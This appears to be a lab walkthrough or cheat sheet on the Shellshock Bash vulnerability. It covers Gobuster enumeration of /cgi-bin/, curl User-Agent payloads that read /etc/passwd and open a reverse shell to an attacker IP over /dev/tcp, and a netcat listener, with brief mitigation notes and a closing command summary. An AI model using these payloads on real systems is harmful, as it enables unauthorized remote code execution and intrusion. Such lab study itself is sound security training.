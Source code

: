 ## 1. Vulnerability Overview

### CVE-2014-6271 - Shellshock

- **Description:** A critical vulnerability in Bash that allows arbitrary command execution through manipulated environment variables.
    
- **Cause:** Bash versions up to **4.3** improperly handle function definitions in environment variables.
    
- **Impact:** Can lead to **remote code execution** in the context of the web server user, often via CGI scripts.
    

---

## 2. Enumeration

### Discover CGI Scripts (Gobuster)

Identify potential vulnerable scripts in the `/cgi-bin/` directory.

```bash
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

### Verify CGI Script Accessibility (cURL)

Check for an active CGI script that could be vulnerable.

```bash
curl -i http://10.129.204.231/cgi-bin/access.cgi
```

---

## 3. Exploitation

### Confirm Vulnerability (cURL)

Inject a **malicious function definition** into the `User-Agent` header to read the `/etc/passwd` file.

```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' http://10.129.204.231/cgi-bin/access.cgi
```

### Execute a Reverse Shell (cURL)

Inject a reverse shell payload into the `User-Agent` header.

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

### Set Up a Netcat Listener

Prepare to catch the reverse shell on port `7777`.

```bash
sudo nc -lvnp 7777
```

---

## 4. Mitigation

### Update Bash

Upgrade to a patched Bash version to close the vulnerability.

### Firewalling

Restrict external access to CGI scripts via firewall rules.

### Decommission Vulnerable Hosts

If possible, **remove** or replace outdated systems running vulnerable Bash versions.

---

## 5. Key Takeaways

- **Shellshock** is exploited via environment variables, often targeting **CGI scripts**.
    
- The `User-Agent` header is a common attack vector for injecting payloads.
    
- **Updating Bash** is the best way to mitigate the vulnerability.
    
- **Always test only with explicit permission.**
    
- **Replace IP addresses and ports** with target-specific information.
    

---

## 6. Commands Summary

```bash
# Gobuster - Discover CGI scripts
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

# cURL - Verify CGI script accessibility
curl -i http://10.129.204.231/cgi-bin/access.cgi

# cURL - Confirm vulnerability
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' http://10.129.204.231/cgi-bin/access.cgi

# cURL - Execute reverse shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi

# Netcat listener
sudo nc -lvnp 7777
```